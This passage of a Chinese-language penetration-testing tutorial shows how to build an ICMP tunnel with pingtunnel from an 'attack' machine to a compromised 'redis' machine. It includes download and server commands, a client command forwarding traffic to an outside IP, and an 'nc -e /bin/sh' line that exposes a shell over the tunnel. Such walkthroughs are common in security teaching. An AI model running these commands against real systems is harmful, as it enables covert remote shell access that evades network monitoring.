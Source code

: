 
attack 机器上开启 ICMP 服务端：

```
sudo wget https://github.com/esrrhs/pingtunnel/releases/download/2.2/pingtunnel_linux64.zip
sudo unzip pingtunnel_linux64.zip
echo 1 >/proc/sys/net/ipv4/icmp_echo_ignore_all  #关闭系统默认的 ping（可选）
sudo ./pingtunnel -type server -key 457864
```


注：服务端参数 `-key` 用于设置密码，默认0。



![title](https://leanote.com/api/file/getImage?fileId=5ed65f56ab644127c2001b61)



然后就开始了等待连接。


redis 机器上开启 ICMP 客户端：

```
pingtunnel.exe -type client -l :4455 -s 47.244.96.168 -t 47.244.96.168:8888 -tcp 1 -key 457864
```

注：

```
客户端参数:
-l        本地的地址，发到这个端口的流量将转发到服务器
-s        服务器的地址，流量将通过隧道转发到这个服务器
-t        远端服务器转发的目的地址，流量将转发到这个地址
-key      设置的密码，默认0
```


上面这句命令的意思是：监听本地的 4455 端口，发送到4455端口的流量将通过 ICMP 隧道转发到 47.244.96.168 服务器的 8888 端口。

![title](https://leanote.com/api/file/getImage?fileId=5ed6725aab644127c2001c22)


可以看到，attack 机器已经收到了来自 redis 机器的 ping，至此隧道搭建成功。

![title](https://leanote.com/api/file/getImage?fileId=5ed6e54eab64416be10002a9)

使用上，比如使用 nc 进行双方的通信。attack 机器上在本地 8888 端口开启一个 nc 服务端，同样等待连接：

```
busybox nc -lp 8888 -e /bin/sh
```

![title](https://leanote.com/api/file/getImage?fileId=5ed6e097ab64416be100027f)

redis 机器上使用 nc 监听本地的 4455 端口，开启 nc 客户端：

```
nc.exe -nv 127.0.0.1 4455
```

![title](https://leanote.com/api/file/getImage?fileId=5ed6e0aeab64416be1000280)
